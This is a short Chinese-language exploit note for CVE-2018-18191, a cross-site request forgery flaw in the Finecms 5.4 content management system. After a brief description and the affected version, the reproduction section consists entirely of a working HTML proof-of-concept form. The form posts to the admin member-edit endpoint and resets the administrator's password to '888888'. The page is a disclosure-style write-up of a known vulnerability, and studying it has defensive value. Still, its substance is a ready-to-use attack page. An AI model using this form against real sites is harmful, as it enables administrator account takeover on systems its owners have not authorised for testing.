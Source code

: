 ```yaml
---
title: "（CVE-2018-18191）Finecms 5.4 存在CSRF漏洞"
id: zhfly2943
---
```


# （CVE-2018-18191）Finecms 5.4 存在CSRF漏洞

## 一、漏洞简介

Dayrui FineCms是中国天睿（Dayrui）程序设计团队发布的一套使用MVC架构和PDO数据库接口开发的内容管理系统（CMS）。 Dayrui FineCms 5.4版本中的/admin.php?c=member&m=edit&uid=1存在跨站请求伪造漏洞。远程攻击者可利用该漏洞修改管理员账户密码。

## 二、漏洞影响

Finecms 5.4

## 三、复现过程

### poc

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://www.0-sec.org/admin.php?c=member&m=edit&uid=1" method="POST">
      <input type="hidden" name="page" value="0" />
      <input type="hidden" name="member&#91;email&#93;" value="admin&#64;163&#46;com" />
      <input type="hidden" name="member&#91;name&#93;" value="admin" />
      <input type="hidden" name="member&#91;phone&#93;" value="18888888888" />
      <input type="hidden" name="member&#91;password&#93;" value="888888" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html> 
```